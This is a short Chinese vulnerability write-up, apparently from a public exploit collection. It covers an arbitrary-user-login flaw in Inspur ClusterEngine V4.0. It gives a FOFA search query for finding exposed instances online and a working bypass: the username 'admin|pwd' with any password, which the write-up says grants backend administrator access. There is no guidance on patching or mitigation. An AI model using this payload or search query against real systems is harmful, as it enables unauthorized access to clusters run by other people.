 # 浪潮ClusterEngineV4.0 任意用户登录漏洞

## 漏洞描述

浪潮ClusterEngineV4.0 存在任意用户登录漏洞，构造恶意的用户名和密码即可获取后台权限

## 漏洞影响

```
浪潮ClusterEngineV4.0
```

## FOFA

```
title="TSCEV4.0"
```

## 漏洞复现



登录页面如下



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091850344.png)



```plain
USER： admin|pwd
PASS:  任意
```



成功登陆后台

部分功能是无法使用的



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091850228.png)